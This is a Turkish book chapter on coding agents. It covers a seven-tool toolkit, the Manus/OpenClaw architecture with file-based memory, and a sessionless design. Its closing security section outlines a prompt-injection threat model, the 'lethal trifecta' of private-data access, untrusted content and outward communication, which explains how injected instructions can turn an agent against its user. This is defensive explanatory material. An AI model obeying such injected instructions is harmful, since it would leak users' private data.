









# Kodlama Agent'ı ve Kod Üretimi

Önceki bölümler context engineering'e (Bölüm 2 ve 3) ve araç tasarımına (Bölüm 4) derinlemesine indi. Bu bölüm, bu yapı taşlarını bir araya getirerek temel bir soruyu yanıtlıyor: **Keyfi görevleri ele alabilen genel amaçlı bir Agent'ın mimarisi neye benzer?**

Yanıt şudur: **Açık uçlu görevleri hedefleyen genel amaçlı bir Agent**, özünde bir **Kodlama Agent'ı** (kodu otonom olarak yazabilen, değiştirebilen ve yürütebilen bir Agent) artı bir **dosya sistemi** — Agent'ın kodu, veriyi, belleği ve ara sonuçları depoladığı çalışma alanı, tıpkı bir programcının bir bilgisayarda projeleri klasörlerle yönetmesi gibi — barındırır. Bu sonuç sektör pratiğinden gelir — Manus'tan OpenClaw'a, başarılı açık uçlu genel amaçlı Agent'ların hepsi aynı paradigmayı izler: küçük bir genel araç kümesiyle (kod yürütme, dosya okuma/yazma, arama) bir Kodlama Agent'ı çalışma zamanı inşa edin, ardından tarayıcı otomasyonu ve web arama gibi yetenek modüllerini bunun üzerine katmanlayın. Bu sonucun nerede uygulandığı — ve nerede uygulanmadığı — "Manus'tan OpenClaw'a" bölümünün sonunda ele alınıyor.

Kod üretimi bu ağırlığı neden taşıyabilir? Çünkü araç kutusundaki yalnızca bir araç değil, bir **meta-yetenektir** — çalışma zamanında dinamik olarak yeni araçlar ve yetenekler yaratma yeteneği. Bu bölümün ikinci yarısı ("Kod: Genel Amaçlı Bir Agent'ın Meta-Yeteneği" bölümü) bu kavramı, uygulandığı altı yönle birlikte eksiksiz olarak geliştirir.

Kod, bir Agent'a iki düzeyde hizmet eder. **Düşünme** için bir ortam olarak, kod titizlik dayatır — "yaş 18'den büyük ve kimliği doğrulanmış" ifadesi doğal dilde birden fazla okumaya izin verir, ama `age > 18 and is_verified` olarak yazıldığında tam olarak bir okumaya izin verir. **İfade** için bir ortam olarak, çalışan kod kendi mantıksal tutarlılığının kanıtıdır ve yürütme sonucu doğal dilin sunamayacağı nesnel bir doğruluk standardı sağlar.

Bu bölüm, bir Kodlama Agent'ının temel yeteneklerini ve genel amaçlı Agent mimarisini (OpenClaw) ele alarak başlar, ardından kod üretiminin matematiksel akıl yürütmeden içerik üretimine, sistem düzeyinde meta-yeteneklere kadar çeşitli senaryolardaki uygulamasını gösterir.

## Kodlama Agent'ı

### Temel Bir Agent Yeteneği Olarak Kodlama

**Kod üretimi yalnızca birkaç özelleşmiş Agent'ın tekelinde değil, her genel amaçlı Agent'ın sahip olması gereken temel bir yetenektir.** Günümüzün SOTA modelleriyle, bir Agent'a temel kodlama yeteneği vermek karmaşık bir mimari gerektirmez.

Tipik bir görevi düşünün: "Depodaki kalan tüm TODO yorumlarını organize et, önceliğe göre sınıflandır ve issue'lar üret." Bunu yapmak, dizin yapısına göz atmayı (ls/glob), kodu okumayı (read), dosyaları değiştirmeyi (edit/write), komutları çalıştırmayı (bash) ve kalıpları aramayı (grep/search) gerektirir. Bu beş işlem kategorisi, bir Kodlama Agent'ının neredeyse her temel eylemini kapsar ve aşağıdaki yedi aracın kaynağı buradan gelir. Kesin olarak konuşursak, beş kategori doğal olarak altı araca eşlenir; yedincisi, Code Interpreter, "kod çalıştır / hesapla" işlemlerini kapsar ve bazı uygulamalarda basitçe Bash'e katlanır — yedi araç, beş kategoriye kesin bir bire bir eşleme değil, normalleştirilmiş bir referans kümesidir.

Temel bir Kodlama Agent'ının yalnızca aşağıdaki yedi temel araçla donatılması gerekir:

1. **Code Interpreter**: İzole bir sandbox ortamı sağlar (ana sistemden izole, kod yürütme hatalarının host'u etkilemediği güvenli bir çalışma zamanı alanı), Python kodunu güvenle yürütür
2. **Bash Shell**: Bir terminalde komutları yürütür, örneğin test durumlarını çalıştırmak veya özel biçimlendirilmiş dosyaları işlemek için
3. **Read File Aracı**: Kodu, yapılandırmayı, dokümantasyonu, logları vb. okur
4. **Write File Aracı**: Yeni dosyalar oluşturur veya mevcut dosyaların tamamen üzerine yazar
5. **Edit File Aracı**: Mevcut dosyalarda kısmi değişiklikler yapar, kod bakımı ve yinelemesi için temel bir işlemdir
6. **Search File Name Aracı (Glob)**: Kalıp eşleştirme yoluyla dosya sisteminde hedef dosyaları hızlıca bulur, örn. bir projedeki tüm Python dosyalarını bulmak için `**/*.py` kullanmak
7. **Search File Content Aracı (Grep)**: Dosya içeriğinde belirli metin kalıplarını arar, örn. belirli bir fonksiyonu çağıran tüm kod satırlarını bulmak

Bu yedi araç, neredeyse herhangi bir Agent sisteminin düşük maliyetle entegre edebileceği eksiksiz ama minimal bir araç kutusu oluşturur. Uygulamada, hepsi Bölüm 4'te tanıtılan MCP protokolü aracılığıyla standartlaştırılmış araç servisleri olarak sunulabilir. Bu araç kümesinin, Bölüm 4'te çağırma yönüne ve işlev doğasına göre sınıflandırılan beş genel araç kategorisinden (algı/yürütme/iş birliği/olay tetikleme/kullanıcı iletişimi) ayrı, Kodlama Agent'larına özgü temel bir yapılandırma olduğuna dikkat edin — yedi temel araç esas olarak algı ve yürütme kategorilerini kapsar. Ya iş birliği, olay tetikleme ve kullanıcı iletişimi? Bir Kodlama Agent'ında bunlar tipik olarak araç katmanının değil, çerçevenin işidir — örneğin, alt Agent devretme, özel iş birliği araçları yerine çerçevenin orkestrasyon mantığı tarafından ele alınır.

Yedi aracın nasıl birlikte çalıştığını görmek için, en basit görevi ele alalım. Kullanıcının "Projedeki tüm TODO yorumlarının bir listesini derlememe yardım et" dediğini varsayalım:

```
Agent (düşünüyor): TODO içeren tüm kod satırlarını bulmak gerekiyor.
Agent → Grep("TODO", glob="**/*.py")          # Dosya içeriğini ara
Araç döndürür:
  src/api.py:42: # TODO: hız sınırlaması ekle
  src/db.py:15:  # TODO: PostgreSQL'e taşı
  tests/test_api.py:8: # TODO: sınır durumu testleri ekle

Agent (düşünüyor): 3 TODO bulundu, bunları bir listede derle ve bir dosyaya yaz.
Agent → Write("TODO_LIST.md", content="...")   # Dosyaya yaz
Araç döndürür: Dosya oluşturuldu

Agent: Tamamlandı. 3 TODO öğesi bulundu, liste TODO_LIST.md'de kaydedildi.
```

Tüm süreç yalnızca iki araç kullandı: Grep (içerik arama) ve Write (dosya yazma). Görev daha karmaşık olsaydı — "modül başına TODO sayısını say ve bir çubuk grafik çiz" gibi — Agent, istatistik ve çizim için Python kodu yürütmek üzere Code Interpreter'ı da kullanırdı. Yedi araç tek başlarına basittir; birleşimde dikkat çekici bir görev yelpazesini kapsarlar.

Neden her genel amaçlı Agent'ın kodlama yeteneği olmalı? Çünkü kod üretimi yalnızca program yazmakla ilgili değildir — problem çözmenin genel amaçlı bir yoludur. Bir matematik problemiyle karşılaşan Agent, kod yazıp kesin bir yanıt için bir çözücüye verebilir; sabitlenmesi gereken bir iş kuralıyla karşılaşan Agent için, kod herhangi bir doğal dil açıklamasından çok daha kesindir; bir araç eksikse, anında bir tane yazabilir; bir veri formatı değiştiğinde, yeni ayrıştırma mantığı üretebilir. Sonraki bölümler bu senaryoların her birini sırayla ele alır. Temel kodlama yeteneğine sahip bir Agent — yukarıdaki yedi basit araçtan başka hiçbir şeyle donatılmamış olsa bile — yeni bir ihtiyaç ortaya çıktığında kendi yetenek sınırını genişletebilir.

### Vaka Çalışması: Manus'tan OpenClaw'a — Genel Amaçlı Agent'ların Kodlama Çekirdeği

Manus'un temsil ettiği genel amaçlı Agent ürünleri, Deep Research, Computer Use ve Coding olmak üzere üç büyük yeteneği tek bir sistemde birleştirir, birçok tür pratiğin tekrar tekrar doğruladığı bir içgörüye işaret eder: **Bir Kodlama Agent'ı artı bir dosya sistemi, açık uçlu genel amaçlı Agent'lar için en temel teknik dayanaktır.** Açık kaynak projesi OpenClaw benzer bir yaklaşım benimser, aynı mimari paradigmayı açıkça gösterir.

Kodlama Agent'ı neden diğer ikisi yerine çekirdek? Çünkü neredeyse tüm verimli içerik üretimi nihayetinde koda indirgenir. Bir PPT özünde OOXML formatında koddur (Office Open XML, Microsoft'un ofis dokümanları için açık standardı); Word dokümanları ve PDF raporları kod aracılığıyla üretilebilir; veri analizi ve görselleştirme Python betikleriyle yapılır; GUI manipülasyonundaki başarılı tarayıcı işlem dizileri bile yeniden kullanılabilir RPA (Robotic Process Automation) koduna sabitlenebilir (Computer Use'un kendisi Bölüm 9'da ele alınır ve işlem dizilerini sabitleme mekanizması Bölüm 8'de ayrıntılı olarak ele alınır). Deep Research'ün arama ve bilgi sentezi, kod güdümlü web istekleri ve ayrıştırma yoluyla gerçekleştirilebilir. Computer Use daha çok yönlü olsa da, maliyeti, gecikmesi ve kararlılığı aynı işlemleri doğrudan kod veya API'ler aracılığıyla tamamlamaktan çok daha düşüktür. Kod üretimi en verimli, en düşük maliyetli ve en yeniden kullanılabilir yetenek temelidir.


Bu mimariyi somut bir yürütme akışı aracılığıyla anlayalım. Kullanıcının "Geçen çeyreğin satış verilerini analiz edip bir özet rapor oluşturmama yardım et" diye talep ettiğini varsayalım:

1. **Belleği Oku**: Agent `MEMORY.md`'yi okur ve kullanıcının PDF formatlı raporları tercih ettiğini ve veri kaynağının Google Sheets olduğunu keşfeder
2. **Araçları Çağır**: Web arama modülü aracılığıyla Google Sheets API'sinin kullanım talimatlarını elde eder, kod yürütme yoluyla veriyi indirir
3. **Kod Yaz**: Python'da bir veri analizi betiği üretir (pandas toplaması, matplotlib görselleştirmesi)
4. **Artifact'lar Üret**: Analiz sonuçlarını `report.pdf`'e, grafikleri `charts/` dizinine yazar
5. **Belleği Güncelle**: `MEMORY.md`'ye "Kullanıcının satış verisi Google Sheets'te, ID: xxx" kaydeder, böylece bir dahaki sefere sormasına gerek kalmaz

Süreç boyunca, dosya sistemi bilgi akışının merkezidir — bellek dosyalardan okunur, artifact'lar dosyalara yazılır ve deneyim de dosyalar olarak kaydedilir.

**Agent'ın Merkezi Merkezi Olarak Dosya Sistemi.** OpenClaw'ın tasarımında, dosya sistemi salt veri depolamadan çok daha fazlasıdır — Agent'ın belleği, bilgisi ve yetenekleri için merkezi merkezdir. Agent'ın uzun vadeli belleği `MEMORY.md`'de (yüksek düzeyli gerçekler ve kullanıcı tercihleri) ve tarihe göre arşivlenmiş Markdown loglarında depolanır. Bir vektör veritabanı yerine Markdown seçmek sezgiye aykırı görünebilir, ama son derece etkilidir: kullanıcılar Agent'ın belleğini okumak ve değiştirmek için dosyaları doğrudan açabilir (Agent bir şeyi yanlış hatırlıyorsa, yalnızca o satırı silin), Markdown semantik retrieval'da zamansal karışıklığı önlemek için kronolojik sırayı doğal olarak korur ve Git aracılığıyla sürüm kontrolünü ve geri almayı destekler.

Daha kritik olarak, Agent dosyalar yazabilir, bu da dosyalar yazarak **kendi kendine evrilebileceği** anlamına gelir. Bir Agent bir görevi ilk kez yerine getirdiğinde ve daha önce bilmediği kilit bir bilgiyi keşfettiğinde (diyelim ki, belirli bir bankayı ararken, bankanın kimlik doğrulaması için hesabın şube adresini gerektirdiğini öğrenir), bu deneyimi bilgi tabanına yazar ve bir dahaki sefere aynı görevi yerine getirdiğinde otomatik olarak yükler. Bu "kullanımla akıllanan" mekanizma, özünde, Bölüm 8'in derinlemesine ele alacağı externalized learning paradigmasının somut bir pratiğidir.

**Uygulanabilirlik Sınırı: Hangi Agent'lar Kodlamayı Temel Mimarisi Olarak Kullanır.** "Kodlama Agent'ı genel amaçlı bir Agent'ın çekirdeğidir" sonucu esas olarak **açık uçlu görevleri hedefleyen genel amaçlı Agent'lara** uygulanır — derin araştırma, içerik üretimi ve veri işleme gibi görev sınırlarının belirsiz ve artifact formlarının çeşitli olduğu senaryolar. Bu senaryolarda, gereken tüm araçları önceden listelemek imkânsızdır; bir meta-yetenek olarak kod üretimi, yetenek sınırlarını dinamik olarak genişletmenin en ekonomik yolunu sağlar, bu da onu mimarinin çekirdeği yapar. Diğer tür Agent — dikey alan müşteri hizmetleri Agent'ları, sesli asistanlar — nispeten kapalı bir görev uzayında çalışır, sabit iş süreçleri, alan araçları ve diyalog stratejisi etrafında inşa edilmiş bir temel mimariyle; orada kod, mimari merkez değil, araç kutusundaki bir araçtır (bu bölümün ilerisindeki τ-bench örneğinde — müşteri hizmetleri senaryolarını simüle eden bir benchmark — kod tam olarak bir politika doğrulama aracı rolünü oynar). Ancak, ikincisinde bile, kodlama vazgeçilmez bir temel yetenektir: hassas hesaplama, veri işleme ve kural doğrulama hepsi buna dayanır — bu, önceki bölümdeki "Temel Bir Agent Yeteneği Olarak Kodlama" iddiasını yankılar: kodlamanın temel mimari olup olmadığı senaryoya bağlıdır, ama kodlama yeteneğine sahip olmak tüm Agent'lar için ortak bir temel çizgidir.

### Oturumsuz Tasarım

Sırada, ilk bakışta Kodlama Agent'ı konusuyla ilgisiz görünebilecek iki tasarımı—"her zaman kullanılabilir" etkileşim modu ve güvenlik mimarisi—tartışıyoruz. Ancak, bunlar Agent'ın kod yürütme ortamını ve dosya sistemi durumunu nasıl yönettiğini doğrudan belirler, bunlar bir Kodlama Agent'ının temel kaygılarıdır. (Önce bir Kodlama Agent'ının adım adım nasıl çalıştığını anlamak isteyen okuyucular, "Bir Kodlama Agent'ının Genel İş Akışı" bölümüne ileri atlayabilir ve etkileşim ve güvenlik tasarımı için buraya geri dönebilir.)

OpenClaw bir **Oturumsuz (Sessionless)** tasarım benimser: kurulum, giriş veya "uygulamayı aç" adımları yoktur; Agent her zaman çevrimiçidir ve kullanıcılar zaten kullandıkları mesajlaşma platformu aracılığıyla her an bir mesaj gönderip yanıt alabilir — bu etkileşim paradigması ve altında yatan Gateway mesaj yönlendirmesi ile olay güdümlü mimarisi, Bölüm 4'ün kullanıcı iletişim aracı bölümünde ayrıntılı olarak tartışıldı ve burada tekrarlanmayacak. Vurgulanmaya değer olan, bu paradigmanın çalışması için ön koşuldur: büyük modeller yeni bir tür "akıllı temel" olarak hizmet edecek kadar olgunlaşmıştır — geleneksel bir işletim sisteminin donanımı soyutlaması ve üst katman uygulamalar için birleşik bir arayüz sağlaması gibi, büyük modeller de dil anlama, reasoning ve planlamanın karmaşıklığını soyutlar, üst katman Agent'lar için birleşik bir akıllı soyutlama sağlar. Tam olarak bu temel sayesinde "her zaman çevrimiçi + anlık yanıt" paradigması düşük maliyetle mühendislik edilebilir.

Bir Kodlama Agent'ı için, Oturumsuz'un gerçek mühendislik zorluğu **kod yürütme ortamının ve dosya sistemi durumunun mesajlar arasında nasıl kalıcı olduğudur**. İki kullanıcı mesajı birkaç dakika veya günler arayla olabilir ve Agent'ın işi büyük miktarda örtük duruma dayanır: sandbox'a kurulmuş bağımlılık paketleri, terminal oturumundaki çalışma dizini ve ortam değişkenleri, arka planda çalışan bir geliştirme sunucusu, yarım yazılmış dosyalar. OpenClaw'ın yaklaşımı durumu iki katmanda yönetmektir. **Dosya sistemi durumu doğası gereği kalıcıdır** — çalışma alanı dizini sandbox'ın dışındaki kalıcı depolamaya bağlanır, böylece kod, veri ve ara artifact'lar mesajlar ve sandbox yeniden başlatmaları boyunca hayatta kalır; bu, "Agent'ın merkezi merkezi olarak dosya sistemi"nin bir başka anlamıdır. **İşlem durumu canlı tutulur veya ihtiyaç halinde yeniden inşa edilir** — sandbox ve terminal oturumu, her mesaj için soğuk başlatmayı, çalışma dizinine yeniden girmeyi ve sanal ortamı yeniden etkinleştirmeyi önlemek için aktif dönemlerde çalışmaya devam eder; kaynakları geri kazanmak için boşta kalma zaman aşımından sonra yok edilirler, ama yok edilmeden önce, serileştirilebilir ortam durumu (çalışma dizini, ortam değişkenleri, arka plan görev listesi) çalışma alanı dosyalarına kaydedilir ve Agent bir sonraki uyanışta bu kayıtlardan yeniden inşa eder. Bu bölümün ilerisindeki "Komut Yürütme Ortamında Durum Kalıcılığı" bölümünde tartışılan kalıcı terminal oturumu, bu mekanizmanın tek bir görev içindeki karşılığıdır; Oturumsuz aynı sorunu mesajlar ve günler boyunca yayılan bir zaman ölçeğine genişletir.

Oturumsuz bakım gerektirmeyen bir tasarım değildir — her kullanıcı mesajı **eksiksiz trajectory'nin ve çalışma durumunun yeniden yüklenmesini** gerektirir, bu da durum serileştirme verimliliğine ve trajectory sıkıştırma stratejisine prim verir; trajectory sıkıştırmanın tasarım ilkeleri Bölüm 2'nin "Context Sıkıştırma Stratejileri" bölümünde ele alındı, bu bölüm ise Oturumsuz mimarinin dayattığı mühendislik ödünleşimlerine odaklanır.

### Kodlama Agent'ları için Güvenlik

Bu bölüm, Kodlama Agent'ının savunma hatlarını tutarlı tek bir hikaye çizgisinde toplar: önce **tehdit modelini**—hangi risklerin en ölümcül olduğunu—ana hatlarıyla belirtiyoruz; ardından **güvenlik ağı olarak izolasyonu**—sandbox içindeki ağ çıkışı, dosya sistemi ve kaynak sınırlarını; ardından **yürütme zamanı savunmasını**—komutların semantik ayrıştırılmasını ve güvenlik kontrollerini "görünmez" kılan spekülatif yürütmeyi; ve son olarak **güven ve sadakati**—çok taraflı vekalet altında Agent'ın kime hizmet ettiğini ve yapay zeka tarafından yazılan kodun kendisine güvenilemediğinde güven sınırının veri katmanına nasıl indirileceğini. Tehdit modeli, sadakat ve güven sınırı tartışmaları tüm Agent'lara uygulanır; sandbox ve komut ayrıştırma, Kodlama Agent'larına özgü artışlardır.

Bu "egemen Agent" paradigması ayrıca ciddi güvenlik zorlukları getirir. Bir Kodlama Agent'ının dosyaları okuma ve yazma, komutları yürütme ve ağlara erişme izinleri vardır, bu da kötü niyetli talimatlar enjekte edildiğinde geri alınamaz hasara neden olabileceği anlamına gelir. Geliştirici ve bağımsız araştırmacı Simon Willison bu riski ünlü "Ölümcül Üçlüsü" ile özetledi—üç unsur da mevcut olduğunda, eksiksiz bir saldırı döngüsü oluştururlar, sistemi yüksek riske sokarlar:

1.  **Özel Veriye Erişim** — Agent kullanıcı dosyalarını ve şifre yöneticilerini okuyabilir.
2.  **Güvenilmeyen İçeriğe Maruz Kalma** — İşlenen e-postalar ve web sayfaları kötü niyetli yükler içerebilir.
3.  **Dışarıyla İletişim Kurabilme Yeteneği** — E-posta gönderebilir ve komutları yürütebilir.

